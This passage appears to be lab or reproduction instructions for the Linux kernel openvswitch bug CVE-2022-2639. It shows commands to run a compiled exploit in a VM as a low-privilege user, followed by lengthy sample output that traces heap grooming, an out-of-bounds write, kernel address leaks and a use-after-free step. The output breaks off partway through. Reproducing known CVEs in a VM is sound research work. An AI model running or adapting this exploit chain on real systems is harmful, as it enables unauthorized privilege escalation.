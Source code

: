 3. Stop recording


### CVE-2022-2639: 

1. In the VM, switch user:
```
cd /root/cve-2022-2639
su silver
```

2. Start recording, then execute bug binary:
```
./exploit

# Example Output:
[*] exploit.c:1058 [1] initialize exploit environment ...
[+] exploit.c:535 get dp_family_id = 32
[+] exploit.c:541 get flow_family_id = 34
[*] exploit.c:1061 [2] create br to check if openvswitch works ...
[   36.284956] device br1337 entered promiscuous mode
[*] exploit.c:709 br1337 ifindex: 2
[*] exploit.c:1064 [3] leak kmalloc-0x400 (msg_msg->m_list.next / prev) ...
[*] exploit.c:766 [3-1] heap fengshui: drain 0x1000~0x10000 to make next allocation adjacent (using RX_RING buffer) ...
[*] exploit.c:783 [3-3] spray 0x400 (msg_msg + msg_msgseg) -> (0x1000 + 0x400) ...
[*] exploit.c:793 [3-4] free another half RX_RING buffer ...
[*] exploit.c:801 [3-5] trigger OOB to forge msg_msg->m_ts ...
[   38.048930] netlink: 1048 bytes leftover after parsing attributes in process `exploit'.
[   38.054969] openvswitch: netlink: Flow actions may not be safe on all matching packets.
[*] exploit.c:811 [3-6] find the corrupted msg_msg (list1_corrupted_msqid) ...
[+] exploit.c:817 [+] corrupted msg_msg found, id: 8
[*] exploit.c:822 [-] but the next object is not allocated by msg_msgseg
[*] exploit.c:833 [3-7] free all uncorrupted msg_msg ...
[*] exploit.c:837 [3-8] alloc 0x400*16 `msg_msg` chain to re-acquire the 0x400 slab freed by msg_msgseg ...
[-] exploit.c:858 [-] bad luck, we don't catch 0x400 msg_msg
[!] exploit.c:1066 retry ...
[*] exploit.c:766 [3-1] heap fengshui: drain 0x1000~0x10000 to make next allocation adjacent (using RX_RING buffer) ...
[*] exploit.c:783 [3-3] spray 0x400 (msg_msg + msg_msgseg) -> (0x1000 + 0x400) ...
[*] exploit.c:793 [3-4] free another half RX_RING buffer ...
[*] exploit.c:801 [3-5] trigger OOB to forge msg_msg->m_ts ...
[   39.900239] netlink: 1048 bytes leftover after parsing attributes in process `exploit'.
[   39.906893] openvswitch: netlink: Flow actions may not be safe on all matching packets.
[*] exploit.c:811 [3-6] find the corrupted msg_msg (list1_corrupted_msqid) ...
[+] exploit.c:817 [+] corrupted msg_msg found, id: 105
[*] exploit.c:833 [3-7] free all uncorrupted msg_msg ...
[*] exploit.c:837 [3-8] alloc 0x400*16 `msg_msg` chain to re-acquire the 0x400 slab freed by msg_msgseg ...
[*] exploit.c:862 [+] it works :)
[+] exploit.c:876 [+] leak list2_leak_msqid: 1028
[+] exploit.c:877 [+] leak list2_leak_mtype: 0x742
[+] exploit.c:878 [+] leak list2_uaf_msg_addr: 0xffff88810a599800
[+] exploit.c:879 [+] leak list2_uaf_mtype: 0x642
[*] exploit.c:883 [3-10] free all uncorrupted msg_msg ...
[*] exploit.c:1068 [4] do exploit step 2 ...
[*] exploit.c:892 [4-1] heap fengshui: drain 0x1000~0x10000 to make next allocation adjacent (using RX_RING buffer) ...
[*] exploit.c:909 [4-3] spray 0x400 (msg_msg + msg_msgseg) -> (0x1000 + 0x400) ...
[*] exploit.c:919 [4-4] free another half RX_RING buffer ...
[*] exploit.c:927 [4-5] trigger OOB to forge msg_msg->m_list.next ...
[   41.748999] netlink: 1024 bytes leftover after parsing attributes in process `exploit'.
[   41.755565] openvswitch: netlink: Flow actions may not be safe on all matching packets.
[*] exploit.c:934 [4-6] free uaf msg_msg from correct msqid (list2_leak_msqid)
```